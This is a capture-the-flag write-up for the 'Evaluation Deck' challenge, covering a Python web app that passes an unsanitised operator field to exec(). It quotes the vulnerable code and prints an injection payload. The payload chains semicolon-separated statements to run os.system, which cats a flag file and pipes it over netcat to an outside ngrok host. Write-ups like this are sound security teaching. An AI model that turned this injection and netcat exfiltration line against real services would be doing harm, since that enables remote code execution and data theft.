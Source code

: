 # Evaluation Deck (x solves)

## Challenge Description
Insecure usage of python exec() leads to RCE 

## Challenge Files
The web app is a card game where players have a health bar and running out of health
causes the game to end. 

![webpage](../images/eval1.png)

Requests sent to the server look like this:

![request](../images/eval2.png)

Take the users current health and update it according to the operator, "+" to increment and "-"
for reduction.

However the server compiles and exec() the code without any sanitisation.

```
result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

## Solution
Python allows multiple statements in one line by using a semicolon, ;.
```
print("hi");print("bye");print("person");

--> hi
    bye
    person
```

We will inject mallicious code into the operator variable as current_health and attack_power
are type casted to int and will return errors if a string is passed. 

### Payload 

;import os;os.system('cat ../flag.txt | nc 0.tcp.ap.ngrok.io 19937');

![payload](../images/eval3.png)

Here I am importing the os module to use system commands. I also set up a tcp listener on my box and exposed it to the public through ngrok. Waiting for a second grants us the flag.

![payload](../images/eval4.png)


## Flag
```
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```